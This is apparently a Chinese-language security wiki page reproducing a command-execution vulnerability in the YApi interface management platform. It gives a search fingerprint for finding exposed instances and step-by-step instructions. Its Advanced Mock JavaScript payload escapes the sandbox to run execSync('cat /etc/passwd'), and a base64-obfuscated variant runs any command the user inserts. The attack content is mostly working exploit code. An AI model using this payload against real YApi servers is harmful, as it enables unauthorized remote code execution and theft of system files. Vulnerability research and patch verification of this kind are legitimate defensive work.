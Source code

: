 # YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>YApi 接口管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="YApi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101756201.png)



首先需要注册账户并登录



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101755024.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754805.png)



添加项目，参数任意, 创建后点击 高级Mock 输入如下Payload

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()

const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const base64Str = "Y29uc3QgciA9IHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMoImhhaGhhaGFoYWhhaGEiKTtyZXR1cm4gcjsK"
const bufferer = FunctionConstructor("haha = new Buffer('" + base64Str + "', 'base64');return haha");
const haha = new bufferer();
const c = haha.toString()
const daima = c.replace("hahhahahahaha","whoami")//这里写命令
const daima_jiazai = FunctionConstructor(daima);
const jieguo = daima_jiazai()
mockJson = jieguo.toString();
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754860.png)



预览处点击项目链接

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754769.png)